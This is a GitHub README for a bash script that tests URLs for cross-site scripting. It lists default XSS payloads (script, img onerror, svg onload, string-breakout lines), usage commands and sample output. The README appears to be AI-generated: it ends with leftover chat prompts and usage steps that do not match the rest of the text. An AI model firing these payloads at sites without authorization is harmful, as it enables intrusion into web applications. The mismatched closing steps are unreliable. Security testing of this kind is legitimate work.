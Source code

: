# XSS-Testing-Script

Here’s a **README.md** for the enhanced XSS testing script:

---

# XSS Testing Script

This script is designed to automate the testing of **Cross-Site Scripting (XSS)** vulnerabilities on a single URL or a list of URLs. The script can use default or custom XSS payloads and save the results in a file for later analysis. It is intended for security researchers, penetration testers, and bug bounty hunters.

## Features

- **Test Single or Multiple URLs**:
  - Test a single URL.
  - Test multiple URLs from a file.
  
- **Default and Custom Payloads**:
  - Use a set of default XSS payloads.
  - Specify custom payloads from a separate file.
  
- **Output**:
  - Results are saved to a timestamped file for easy tracking.
  - Clear, color-coded output in the terminal.

## Requirements

- **bash** (Linux/Mac)
- **curl** (for HTTP requests)
- **jq** (for URL encoding)

Make sure you have **jq** installed:
```bash
sudo apt-get install jq      # For Debian/Ubuntu
sudo yum install jq          # For CentOS/RHEL
```

## Installation

1. **Clone or Download the Script**:
   ```bash
git clone https://github.com/abdullah89255/XSS-Testing-Script
```

2. **Make the Script Executable**:
   ```bash
   chmod +x xss_test.sh
   chmod +x * 
   ```

## Usage

### Basic Command Structure
```bash
./xss_test.sh [options]
```

### Options

- `-u <url>`: **Test a single URL** for XSS vulnerabilities.
  - Example:
    ```bash
    ./xss_test.sh -u "https://example.com/search?q="
    ```

- `-f <file>`: **Test multiple URLs** from a file. Each URL should be on a new line in the file.
  - Example:
    ```bash
    ./xss_test.sh -f urls.txt
    ```

- `-p <payloads_file>`: Use **custom payloads** from a file. If not specified, the script uses the default payloads.
  - Example:
    ```bash
    ./xss_test.sh -u "https://example.com/search?q=" -p payloads.txt
    ```

- `-o <output_file>`: **Specify the output file** for saving results. By default, the results are saved with a timestamp.
  - Example:
    ```bash
    ./xss_test.sh -u "https://example.com/search?q=" -o custom_results.txt
    ```

- `-h`: Show the **help message**.

### Example Usage

1. **Test a Single URL**:
   ```bash
   ./xss_test.sh -u "https://example.com/search?q="
   ```

2. **Test Multiple URLs from a File**:
   ```bash
   ./xss_test.sh -f urls.txt
   ```

3. **Use Custom Payloads**:
   ```bash
   ./xss_test.sh -u "https://example.com/search?q=" -p custom_payloads.txt
   ```

4. **Save Results to a Custom File**:
   ```bash
   ./xss_test.sh -f urls.txt -o custom_results.txt
   ```

5. **Show Help**:
   ```bash
   ./xss_test.sh -h
   ```

## Default Payloads

The script comes with the following **default XSS payloads**:

```plaintext
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg/onload=alert('XSS')>
<iframe src=javascript:alert('XSS')></iframe>
';alert('XSS');// 
";alert('XSS');// 
<body onload=alert('XSS')>
<marquee onstart=alert('XSS')>
<input autofocus onfocus=alert('XSS')>
<details open ontoggle=alert('XSS')>
```

### Custom Payloads File

If you want to use your own set of payloads, create a file (`payloads.txt`) with one payload per line:

```plaintext
<script>alert('Custom XSS')</script>
<img src=x onerror=alert('Custom XSS')>
```

You can pass this file to the script using the `-p` option.

## Output Format

Results are saved to a file. The script will indicate if a payload was successful or not with a message:

```plaintext
[+] Vulnerable: https://example.com/search?q=<script>alert('XSS')</script> with payload: <script>alert('XSS')</script>
[-] Not vulnerable: https://example.com/search?q=<svg/onload=alert('XSS')> with payload: <svg/onload=alert('XSS')>
```

If no vulnerabilities are found, you will see the "Not vulnerable" message for each URL tested.

## Example Output

```
============================================
        Starting XSS Testing Script         
============================================
Testing single URL...
Testing URL: https://example.com/search?q=<script>alert('XSS')</script>
[+] Vulnerable: https://example.com/search?q=<script>alert('XSS')</script> with payload: <script>alert('XSS')</script>
Testing URL: https://example.com/search?q=<img src=x onerror=alert('XSS')>
[-] Not vulnerable: https://example.com/search?q=<img src=x onerror=alert('XSS')> with payload: <img src=x onerror=alert('XSS')>

============================================
XSS Testing Completed. Results saved to:
xss_results_20250204_115234.txt
============================================
```

## Contributing

Feel free to **fork** the repository and submit **pull requests** with improvements, bug fixes, or additional features.

## License

This script is open source and released under the **MIT License**.

---

### Let me know if you'd like further changes to this README or script!
Would you like additional enhancements such as **parallel execution** or **HTML output reports**?

### **Steps to Use the Script**
1. Save the script as `xss_test02.sh`.
2. Make the script executable:
   ```bash
   chmod +x xss_test02.sh
   ```
3. Run the script with the target URL and parameter:
   ```bash
   ./xss_test.sh "https://example.com/search" "query"
   ```


